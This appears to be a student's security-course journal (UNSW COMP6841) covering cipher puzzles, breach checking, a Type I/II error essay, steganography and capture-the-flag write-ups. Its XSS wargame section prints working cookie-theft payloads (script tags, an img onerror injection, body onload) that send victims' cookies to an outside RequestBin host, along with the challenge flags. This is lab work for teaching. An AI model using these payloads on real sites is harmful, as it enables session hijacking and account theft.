



# Community

## Music I Love

https://www.openlearning.com/unswcourses/courses/sec-21t1?inCohort=unswcourses%2Fcourses%2Fsec-21t1%2FCohorts%2FClassOf21T1#comment-60362e1cf1ce384d515ec21b



## Security Everywhere

**Yikes.. an abuse of trust from Sydney Transport**
https://www.openlearning.com/u/axie/blog/ScammedBySydneyTransport/

### Scammed by Sydney Transport

On Tuesday, I experienced a moment from the Wargames movie, where I too quickly believed the light rail data coming from my Tripview app, causing me to be approximately 20 minutes late to my security lecture :(. Believing Tripview's light rail data was displayed in real time just like its train data, I planned my route, catching the second latest train to Central so that I could just make it in time. However, due to rainy weather and ahem.. Sydney Transport, the train was delayed by five minutes which meant I missed the light rail I was planning to catch. Luckily, I could still get to uni on time according to Tripview, and had to catch the next light rail coming in three minutes. Watching the minutes tick down  to "Now", I looked around anxiously, unable to find the tram which should apparently be right in front of me, even after triple-checking on the app with the live map view, although there was one just arriving but going the other direction to Circular Quay. When the electronic station sign finally changed to show the arriving trams, I noticed that the tram I was expecting from my app was completely missing from the sign, which displayed that next one was coming in 8 minutes. I pointed this mismatch out to an Opal service worker, who merely responded with "your app is wrong, sir". This reminded me not to blindly **trust** given data, and the importance of verifying data integrity first. Doing some research, it seems that real time data was not implemented in the app then, although it looks like it's [coming soon](https://opendataforum.transport.nsw.gov.au/t/cbd-and-south-east-light-rail-real-time-data-now-available/2290). 


# Foundations - Secrets

## "Warmup" Crypto Challenge

This "30-minute" challenge took me several hours to complete. The :) was a huge hint (11 spaces apart) provided by others in the comments. Noticing this, I tried to work backwards in the same pattern in an attempt to extract the flag backwards, getting "DONE:)" before looping over itself. I decided to try starting from the beginning instead and move forwards in the same pattern, getting "THEFLA". I had a feeling the next letter should have been "G" to complete the word "FLAG", so trying to find the next "G" and seeing what happened i the pattern, the next iteration spelt out "GISSEC". Combining this together, this goes on to spell "THEFLAGISSEC"... and since I couldn't be bothered solving it manually, I wrote the following short Python program to retrieve the flag :)

```python
# cipher-text has 72 characters
cipher_text = 'TGENLSVUTERDHIDGAOIRCC}OESURTNNFOIWNFS{AISGIUPEELECTOOYRRHL:ACOUNLOSSEL)'
plain_text = ''

for starting_index in range(12):
    segment = ''.join(x for i,x in enumerate(cipher_text[starting_index:]) if i % 12 == 0)
    plain_text += segment

print(plain_text)
```

==This is a transposition cipher==

## NSA Game

Although I usually instinctively turn to using an online substitution cipher such as decode.fr, I wanted to try completing this activity manually, like on Tuesday's lecture. I adopted some of my strategies that I've used before, such as:

- Solve short words first
- Take risks and guess common words
- For more complicated puzzles: guessing characters by its relative frequency (ETAOIN SHRDLU) and analysing n-grams



An example of using this strategy on one of the puzzles:

1. Solving two-letter words first: guessing that for BJ, B -> I (common two-letter words)
2. The letter after the apostrophe, U, must correspond to either S or T
   - Trying U -> S, XMU UHS would correspond to ??S S?? which I guessed HAS SHE. However, this wouldn't make sense gramatically after a comma, so I chose U -> T instead.
3. Seeing a three-letter word beginning with T.. of course I had to do UHS -> THE
4. Realising that on the next line, there was a THE? word, I immmediately guessed THEN - which I later find out to be incorrect
5. Examining the contraction, I guessed that X -> N due to how short the contraction was
6. Having this, I gussed N?T corresponded to NOT
7. I then tried guessing the three-letter word ??E, guessing the common three-letter word ARE
8. Seeing REA?, I guessed this word was REAL
9. Completing the contraction: ?AN'T becomes CAN'T
10. Taking a guess, ?ECA??E looks like BECAUSE
11. With this risky guess, I have most of the words completed. Noticing that NOU and NOUR aren't real words, I changed N to Y, at which point I realised that THEY was another solution to Step 4
12. The two-letter word I? must be IF in order to be gramatically correct - if.. then..
13. Last two words were tough - dro<u>w</u>n and s<u>w</u>im - with the 'w' characters being in common, I just brute-forced every character

## Have I been pwned?

Having already run this test before, my results were as expected. My original main email account was pwned in 10 data breaches!! Running this test a year ago with a similar result exposed my not-very-safe Internet security habits when I was young (around primary school to early high school). Surprised by these numbers (and with my Gmail running out of storage), I decided to create a new Gmail account for important emails, and use my other email address for less important purposes (such as useless physical signups to make people think I gave them my main email account rather than a spam account). I have plenty of spam email addresses which I usually use if I need to signup online though, and somehow they have only been pwned twice in total - both pointing to my Club Penguin Rewritten account created during quarantine as a joke. Furthermore, I was relieved that my actual new main email address has not been pwned yet for an entire year, due to my revised security measures based on how important a service is to me, and how secure I deem their authentication system. This means that even if my credentials for a less important service gets leaked, they will not be able to use those credentials to log into my important services, which use a completely different email address and password. And of course, I enable two factor authentication on my important accounts whenever possible as an extra security feature. 

# Security Engineering

## Explain TI/TII with an example

Type I / Type II errors using this week's case study on the Deepwater Horizon Oil Spill incident:
https://www.openlearning.com/u/axie/blog/DeepwaterHorizonOilSpillTypeITypeIiErrors/

### Deepwater Horizon Oil Spill Type I / Type II Errors

*Type I and type II errors are closely related and usually when we are at risk of one type happening we are also at risk of the other. Yet it can be easy to inadvertently focus on just one of the types of error and not properly pay attention to the risk of the other. This can be a problem because in practice, sadly, it is usually the case that making one of the types of errors less likely to happen also has the unfortunate side effect of making the other type more likely.*

Type I errors, known as false positives, refer to the rejection of a true null hypothesis, while type II errors are also known as false negatives. We will use our recent popular case study on the Deepwater Horizon oil spill incident as an example to illustrate the difference between the two types of errors. Last week, Dr Axie Ax recommended having an automated system which could detect system faults and automatically shut down drilling operations as a safety precautionary measure. However, type I and type II errors could play a huge role in whether or not this recommendation actually works out. As many critics have discussed, errors in detection and automation of this new system could be very costly and detrimental to oil mining companies.

Let's define a true positive outcome where an issue was detected and the drilling operation was successfully shut down accordingly. If there was some error in the sensors used to provide data to the system or the system itself, resulting in the operation being shut down as a precautionary measure (wrongly), this is known as a false positive. This is because the system expected an issue warranting a shutdown (positive outcome), but such an issue was incorrectly idenitified. Although this Type I error is best for safety purposes, the downtime is very costly to oil drilling companies, especially if such false positives occur quite often.

Conversely, let's define a true negative outcome to be where the system does not shut down any operations because no issues have been detected. An example of a Type II error, or a false negative, would be the system failing to identify any issues, although the issues are real and serious, resulting in loss of lives and oil spillage. 

A way of mediating the severities of these errors could involve a manual human override to the system for dealing with false positives, although this could mean that the person in charge could also dismiss a warning leading to catastrophic damage. Having someone monitor the sensors manually and ensuring that they are working as intended could also be effective for dealing wtih false negatives. For the Deepwater Horizon oil spill incident, although such a system was not implemented at the time, early warnings of broken equipment such as the broken cement seal at the bottom of the well and unusual pressure test readings were ignored, where workers treated these signs as false positives (Type I errors), leading to a true negative outcome (destruction).


# Extension

## XSS Wargame

While trying to solve XSS1, I found a probably unintended vulnerability in this challenge which allows you to retrieve the flag for each of the four XSS activities using a similar url. I noticed that a user's blogs can be accessed with the link `http://xss1.comp6841.xyz/blogs?u={USERNAME}`and just tried sending a complaint with a malicious injection where {USERNAME} was. Turns out I could simply change the `xss1` part of the url for each corresponding activity to solve it. Something along the lines of:

`http://xss1.comp6841.xyz/blogs?u=<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie</script>test`

### XSS1

Although I initially solved this using the method described above, I went back to solve it "properly". Noticing that blog post titles were XSS vulnerable but size-limited, although body content was said to be DOMPurified, I was still able to embed a redirect using `<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="+document.cookie</script>` in the content. Sending this to another user (complaint) allows me to extract their cookie when loading the page, hence extracting the flag.

COMP6841{Bu7_d0_u_h4v3_a_Fl4G}

### XSS2

In this activity, I realised that there was an additional search page which was vulnerable to XSS when trying to inject into the search query. From there, I constructed a complaint with a malicious query. I sent the complaint link as something like `http://xss2.comp6841.xyz/search?q=<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie</script>test`. Injecting the script into the search query client-side redirects them to my RequestBin site, from which I can steal their cookie from the query. 

COMP6841{YoUr_r3flec7ion_cAn_b3_d4nger0us}

### XSS3

Although I initially solved this using the vulnerability described above, I once again went back to solve it "properly", noticing that this activity was very similar to XSS1, except that blog post content was just an image with user-input URL (src attribute). From the webinar, I figured this would be something along the lines of a ``, so I injected  `" onerror="javascript:document.location='https:/eno1i2k0dctxq.x.pipedream.net/?q='+document.cookie"`which redirects the user upon failing to load the image. Providing a link to a blogs page containing this post allowed me to extract the flag. 

COMP6841{YoU_XSSd_aN_1m4g3_7ag???}

### XSS4

Although I initially solved this using the vulnerability described above, I once again went back to solve it "properly". In this activity, the search page is back, except with script and image tags disabled, as well as the onerror field. A quick Google search led me to the [OWASP XSS page](https://owasp.org/www-community/attacks/xss/), which listed`<body onload=alert(1)`as an alternate method. From here, I encoded the url `http://xss4.comp6841.xyz/search?q=<body onload=document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie>test</body>`to be sent as a complaint for another user to open and steal their cookies / flag :)

COMP6841{Al1_th15_w0rk_4_nO_p4yOu7???}


Note: Redirect link - use RequestBin

# Optional

## Classical Ciphers

<u>My ciphertext: HVMWSVOKKOH</u>

An Atbash cipher is a type of monoalphabetic substitution cipher where the characters a-z are mapped to its reverse z-a. 

<u>Zainab's ciphertext: YEZHYORAIADARUWRR</u>
Key: 3 rails

In a rail fence cipher, plain text is encoded diagonally on alternating vertical directions on successive "rails" of an imaginary fence. Noticing that there are 17 characters in the cipher text, I figured out that the number of diagonal lines is by (n - 1) / (r - 1) where n is the number of characters and r is the number of rails, so there are 8 diagonal lines. Writing the cipher text out row by row, and reading it by following the purple arrows, I extract the original message: YOUREAWIZARDHARRY. 



Definitely knowing which method (and key) was used to create the cipher text made deciphering the text so much simpler. Without knowing these, trying each cipher out would take a very long time and much dedication.

## Steganography

Hex reader: I used xxd from the command line. 

<u>Challenge 1</u>

1. *A* Ba*c*o*n* C*i*phe*r i*s *an* eg*gsam*pl*e* *o*f *a* simple way of hiding secret messages inside innocent looking cover messages.
2. *A*Ba*c*o *n*C*i*ph e*ri*s*a* *n*eg*gs* *am*pl*e* *o*f*a*si mplew ayofh iding secret messages inside innocent looking cover messages.
3. BAABA BABAA ABBAB BAABB BBAAB BABAA (using B to represent italicised characters, A otherwise)
4. SUNTZU

<u>Challenge 2</u>

The secret "no more secrets" can be found by highlighting the hidden text, which is coloured white against the white background.

<u>Challenge 3</u>

The secret "Top Men" can be found at the end of the raw bytes in the image, or by using a [Steganography tool displaying strings](https://stegonline.georgeom.net/upload). 

<u>Bonus</u>

The flag hidden in the audio file can be found by downloading [wav-steg.py](https://github.com/pavanchhatpar/wav-steg-py) and running the following command to extract the 54 hidden bits: `python3 wav-steg.py -r -s DeepBits.wav -o out.txt -n 2 -b 54`. This gives the flag ZZEN9201{listen_carefully_some_bits_are_significant}. 


